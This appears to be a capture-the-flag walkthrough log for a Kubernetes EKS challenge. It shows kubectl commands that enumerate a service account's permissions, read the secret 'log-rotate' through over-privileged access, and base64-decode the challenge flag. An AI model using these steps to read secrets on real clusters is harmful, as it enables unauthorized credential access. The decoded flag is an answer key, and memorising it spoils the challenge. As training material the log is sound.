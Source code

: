 $ kubectl whoami
system:serviceaccount:challenge1:service-account-challenge1


$ kubectl auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs                     Resource Names     Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []                 [create]
secrets                                         []                                    []                 [get list]
                                                [/.well-known/openid-configuration]   []                 [get]
                                                [/api/*]                              []                 [get]
                                                [/api]                                []                 [get]
                                                [/apis/*]                             []                 [get]
                                                [/apis]                               []                 [get]
                                                [/healthz]                            []                 [get]
                                                [/healthz]                            []                 [get]
                                                [/livez]                              []                 [get]
                                                [/livez]                              []                 [get]
                                                [/openapi/*]                          []                 [get]
                                                [/openapi]                            []                 [get]
                                                [/openid/v1/jwks]                     []                 [get]
                                                [/readyz]                             []                 [get]
                                                [/readyz]                             []                 [get]
                                                [/version/]                           []                 [get]
                                                [/version/]                           []                 [get]
                                                [/version]                            []                 [get]
                                                [/version]                            []                 [get]
podsecuritypolicies.policy                      []                                    [eks.privileged]   [use]


$ kubectl get secrets
NAME         TYPE     DATA   AGE
log-rotate   Opaque   1      42d


$ kubectl get secrets log-rotate -o yaml
apiVersion: v1
data:
  flag: d2l6X2Vrc19jaGFsbGVuZ2V7b21nX292ZXJfcHJpdmlsZWdlZF9zZWNyZXRfYWNjZXNzfQ==
kind: Secret
metadata:
  creationTimestamp: "2023-11-01T13:02:08Z"
  name: log-rotate
  namespace: challenge1
  resourceVersion: "890951"
  uid: 03f6372c-b728-4c5b-ad28-70d5af8d387c
type: Opaque


$ echo "d2l6X2Vrc19jaGFsbGVuZ2V7b21nX292ZXJfcHJpdmlsZWdlZF9zZWNyZXRfYWNjZXNzfQ==" | base64 -d
wiz_eks_challenge{omg_over_privileged_secret_access}
